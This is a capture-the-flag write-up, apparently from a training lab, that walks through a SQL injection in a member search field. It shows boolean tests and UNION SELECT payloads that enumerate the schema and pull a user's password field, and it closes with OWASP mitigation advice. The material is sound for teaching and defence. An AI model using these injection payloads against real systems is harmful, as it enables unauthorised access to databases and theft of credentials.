





# Exploit

On the Members page, we see an input to search for members.  
Since this input is used to parametrize the search url, we can write a Python script to multiply queries and retrieve all members' information.  
We can see that Member #5 has an interesting name...

```
[darkly@darkly] ~/06-SQL_injection_input/Ressources # python3 scriptmembers.py
ID: 1
First name: Barack Hussein
Surname : Obama
ID: 2
First name: Adolf
Surname : Hitler
ID: 3
First name: Joseph
Surname : Staline
ID: 5
First name: Flag
Surname : GetThe
```

If we enter `1`, we can retrieve the information for the member with ID 1:  
If we enter a random string, we get an error message:

```
Unknown column 'lala' in 'where clause'
```

This hints that our input is used in the WHERE clause of an SQL statement that could look something like

```
SELECT first_name, surname FROM members_table WHERE id=<input>
```

If we enter `1 AND 1=1`, the request still works:



But if we enter `1 AND 1=2`, it doesn't.  
This confirms that our input is intepreted as an SQL command, since the same input is evaluated as true and then false.

We can now retrieve the names of the database tables by using UNION SELECT.
If we attempt the UNION SELECT with one element, such as:

```
1 UNION SELECT table_names FROM information_schema.tables
```

We get an error message: `The used SELECT statements have a different number of columns`  
Since the first (unavailable) part of the SQL command retrieves two elements from the database, we need to realize the UNION SELECT with two elements on the other side:

```
1 UNION SELECT table_names, 1 FROM information_schema.tables
```

With this input, we can see the entire list of database tables, among which:



We also can see the columns of these tables:

```
1 UNION SELECT table_name, column_table FROM information_schema.columns
```

Which gives us access to all the fields of the users table:



With this information, we can look more specifically for a user.  
After trying several combination of fields (since we can only try two at a time), we enter this input:

```
1 UNION SELECT countersign, commentaire FROM users WHERE user_id=5
```

which yields



Decrypt the password:



```
[darkly@darkly] ~/03-sensitive_data_exposure/Ressources # echo -n fortytwo | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 -
```

# Mititaging the risk

As detailed in the [OWASP SQL Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html), it is recommended to:

- Use prepared statements in parametrized queries or stored procedures
- Whitelist input validation to reject unwanted patterns
- Escape all user input
